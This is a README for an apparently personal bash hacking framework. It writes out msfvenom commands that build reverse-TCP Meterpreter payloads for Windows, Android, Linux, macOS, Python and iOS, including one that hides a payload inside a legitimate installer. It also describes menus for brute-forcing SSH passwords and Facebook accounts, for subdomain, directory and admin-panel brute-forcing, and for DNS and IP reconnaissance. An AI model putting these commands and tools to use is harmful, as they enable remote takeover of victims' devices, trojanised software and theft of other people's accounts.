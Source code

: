 # ファックユー
My priv8 framework, written in bash

## Language
+ [GNU Bash](https://www.gnu.org/software/bash/)
+ [PHP](https://www.php.net/)
+ [Python3](https://www.python.org/)

## Dependencies
+ [Metasploit](https://www.rapid7.com/products/metasploit/download/) - For creating and execute payload
+ [Nmap](https://nmap.org/) - For performing port scanning
+ [Curl](https://curl.se/) - For sending request to api

## Optional dependencies
+ [Arcane](https://github.com/tokyoneon/Arcane) - For embedding iOS payload
+ [PHP-Curl](https://www.php.net/manual/en/curl.examples.php) - For sending http request
+ [Shreder](https://github.com/EntySec/Shreder) - For bruteforcing SSH passwords

## Menu Explanation
+ **Payload Generator**
  
  This menu provides automatic payload generator, and will automatically take you to meterpreter
  
  **Available Payloads :**
  + **Windows Payload**
    + **Simple Executable File Payload**

    ```sh
    msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 LHOST=$ip LPORT=$port -f exe > $out
    ```
    + **Payload Embedded to Installer**
    
    ```sh
    msfvenom -a x86 --platform windows -x $ins -k -p windows/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -e x86/shikata_ga_nai -i 9 -f exe -o $out
    ```
  + **Android Payload**
    + **Simple Aplication Package Payload**
    
    ```sh
    msfvenom -p android/meterpreter/reverse_tcp LHOST=$ip LPORT=$port R > $out
    ```
  + **Linux Payload**
    + **Simple Reverse TCP Payload**
    
    ```sh
    msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$ip LPORT=$port -f elf > $out
    ```
  + **Mac Payload**
    + **Simple Reverse TCP Payload**
    
    ```sh
    msfvenom -p osx/x86/shell_reverse_tcp LHOST=$ip LPORT=$port -f macho > $out
    ```
    + **Executable Python Payload**
    
    ```sh
    msfvenom -p python/meterpreter/reverse_tcp LHOST=$ip LPORT=$port > $out
    ```
  + **iOS Payload**
    + **Reverse TCP Payload (execute via SSH)**
    
    ```sh
    msfvenom -p apple_ios/aarch64/meterpreter_reverse_tcp LHOST=$ip LPORT=$port -f macho -o $out
    chmod +x $out
    ldid -S $out
    ```
    + **Embedded iOS Package (packaged by Arcane)**
    
    ```sh
    ./arcane.sh --input $deb --lhost $ip --lport $port --cydia --netcat
    ```

+ **Brute Force Attack**
  
  This menu provides tools for performing Brute Force attack
  + **SSH Password Brute** - Bruteforcing password for username@host desired by user
  + **Facebook Account Brute** - Can be used for bruteforcing multiple account with multiple password

+ **DNS Queries**
  
  This menu provides tools for using DNS queries
  + **DNS Lookup** - View the standard DNS records for a domain
  + **Reverse DNS Lookup** - Discover the reverse DNS entries for an IP address, a range of IP addresses or a domain name
  + **DNS Host Records** - Find all Forward DNS records for a domain
  + **Shared DNS Servers** - Find hosts sharing DNS servers
  + **DNS Digging** - Get all DNS records for a target domain

+ **IP Tools**
  
  This menu provides tools for lookup IP information
  + **GeoIP Location Lookup** - Find the location of an IP address
  + **Reverse IP Lookup** - Find all A records associated with an IP address
  + **Subnet Lookup** - Determine the properties of a network subnet
  + **Autonomous System Lookup** - Check an Autonomous System Number for IP prefixes
  + **Banner Grabbing** - Discover network services by simply querying the service port

+ **Web Tools**
  
  This menu provides tools for Web Pentesting
  + **HTTP Header Check** - Review the HTTP Headers from a web server
  + **Extract Links From Page** - Parse the html of a website and extract links from the page
  + **Reverse Google Analytics Lookup** - Perform a reverse Google Analytics search to find all web properties associated with a Google Analytics ID
  + **Subdomain Finder** - Automatically search all subdomains from host
  + **Subdomain Brute (using wordlists)** - Perform Bruteforce attack to search all subdomains from hosts
  + **Directory Brute** - Perform Bruteforce attack to search all directory from hosts
  + **Admin Login Finder** - Perform Bruteforce attack to search panel for admin login

+ **Nmap Helper**

## External Links
+ [HackerTarget](https://hackertarget.com/) - Online Vulnerability Scanners
+ [Omnisint Labs](https://omnisint.io/) - Rapid7's Project Sonar API
+ [N1ght_Frmwrk](https://github.com/N1ght420/N1ght_Frmwrk) - Priv8 framework by N1ght.Hax0r
+ [Adfinder](https://github.com/N1ght420/adfinder) - Simple Admin Login Finder
+ [Subdoin](https://github.com/N1ght420/Subdoin) - Subdomain Grabber
+ [Dircrunch](https://github.com/N1ght420/Dircrunch) -  Simple tool for Searching Directory

## Note
```
Some of tools in this script require root access
```
